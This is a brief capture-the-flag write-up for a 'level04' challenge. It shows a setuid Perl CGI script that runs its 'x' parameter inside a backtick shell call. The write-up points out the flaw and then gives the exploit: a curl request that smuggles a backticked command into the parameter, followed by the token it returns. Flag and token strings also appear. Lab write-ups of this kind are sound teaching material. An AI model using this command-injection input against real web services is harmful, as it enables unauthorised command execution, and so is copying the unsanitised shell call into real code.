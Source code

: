 ## FLAG: `qi0maab88jeaj46qoumi7maus`

> ls -l
```
    total 4
    -rwsr-sr-x 1 flag04 level04 152 Mar  5  2016 level04.pl
```

> cat level04.pl
```
    #!/usr/bin/perl
    # localhost:4747
    use CGI qw{param};
    print "Content-type: text/html\n\n";
    sub x {
    $y = $_[0];
    print `echo $y 2>&1`;
    }
    x(param("x"));
```
## ``# localhost:4747``         script running on `localhost:4747`
## ``x(param("x"));``           1 parameter `x`
## ``print `echo $y 2>&1`;``    Exploit : `echo getflag 2>&1`

> curl localhost:4747?x=\`getflag\`
```
    Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```